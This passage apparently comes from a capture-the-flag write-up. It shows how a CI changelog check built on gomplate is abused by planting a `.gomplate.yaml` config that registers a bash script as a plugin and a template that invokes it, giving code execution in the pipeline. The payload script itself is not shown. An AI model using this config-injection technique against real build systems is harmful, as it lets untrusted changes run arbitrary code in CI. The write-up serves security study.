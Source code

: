 ```bash
#!/usr/bin/env bash

output=`cat .ci/changelog.gomplate.md | gomplate --datasource changelog.yml`

if diff <(cat CHANGELOG.md) <(echo "$output"); then
    echo "CHANGELOG.md matches changelog.yml"
else
    echo "Error: CHANGELOG.md differs from changelog.yml"
    echo "Please regenerate CHANGELOG.md using the following command before submitting changes:"
    echo "  cat .ci/changelog.gomplate.md | gomplate --datasource changelog.yml > CHANGELOG.md"
    exit 1
fi
```

```md
# Changelog
{% raw %}
{{- with (datasource "changelog") }}
{{- range $version, $changes := .changelog }}
## {{ $version  }}
{{- range $change := $changes }}
- {{ $change  }}
{{- end }}
{{- end }}
{{- end }}
{% endraw %}
```

I thought I needed to do some Sever Side Template Injection, but the template file was protected.

From the [documentation](https://docs.gomplate.ca/config/), I saw that gomplate read configuration from the file `.gomplate.yaml` by default.

I took the example configuration that ran a bash file as a plugin.

```yaml
inputDir: in/
outputDir: out/

datasources:
  local:
    url: file:///tmp/data.json
  remote:
    url: https://example.com/api/v1/data
    header:
      Authorization: ["Basic aGF4MHI6c3dvcmRmaXNoCg=="]

plugins:
  dostuff: ./stuff.sh
```

Then, I created a template to call `dostuff` in `in/changelog.gomplate.md`.

```md
{% raw %}
# Changelog

{{ dostuff }}
{% endraw %}
```
